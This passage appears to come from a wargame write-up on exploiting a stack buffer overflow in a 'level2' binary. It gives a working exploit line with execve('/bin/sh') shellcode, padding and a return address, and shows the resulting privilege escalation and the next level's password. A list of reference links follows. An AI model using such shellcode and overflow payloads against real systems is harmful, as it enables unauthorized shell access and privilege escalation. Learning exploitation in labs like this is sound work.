 It does not work...

As we know the exact address of the pointer, maybe we can directly aim the shellcode and skip Nopsled. Then add a padding after the shellcode.

```bash
(python -c 'print(
  "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80" +
  "A" * 52 +
  "\x08\xa0\x04\x08"
)' ; cat) | ~/level2

(stdin) id
> uid=2021(level2) gid=2021(level2) euid=2022(level3) egid=100(users) groups=2022(level3),100(users),2021(level2)

(stdin) cat /home/user/level3/.pass
> 492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
```

It works !
But at this moment, I don't really understood why it does not work with Nopsled. I hope understand that with next levels.

---

## Sources

### Buffer overflow

- [Memory segmentation - Cheat sheet](https://www.0x0ff.info/wp-content/uploads/2015/12/buffer-overflow-memory-segmentation-cheat-sheet.png)

- [FR - Buffer Overflow & gdb – Part 1](https://www.0x0ff.info/2015/buffer-overflow-gdb-part1/)
- [FR - Buffer Overflow & gdb – Part 2](https://www.0x0ff.info/2015/buffer-overflow-gdb-part-2/)
- [FR - Buffer Overflow & gdb – Part 3](https://www.0x0ff.info/2015/buffer-overflow-gdb-part-3/)
- [FR - Overflow, comment éxecuter votre Shellcode](https://www.kali-linux.fr/hacking/overflow-comment-executer-votre-shellcode)

### Shellcode

- [Shellcode - Linux x86 execve("/bin/sh") - 28 bytes](http://shell-storm.org/shellcode/files/shellcode-811.php)

### C

- [Getting the Return or Frame Address of a Function](https://gcc.gnu.org/onlinedocs/gcc/Return-Address.html)

### Shell

- [Man fflush](https://linux.die.net/man/3/fflush)
- [Man gets](https://linux.die.net/man/3/gets)
- [Man printf](https://linux.die.net/man/3/printf)
- [Man exit](https://linux.die.net/man/3/exit)
- [Man puts](https://linux.die.net/man/3/puts)
- [Man strdup](https://linux.die.net/man/3/strdup)
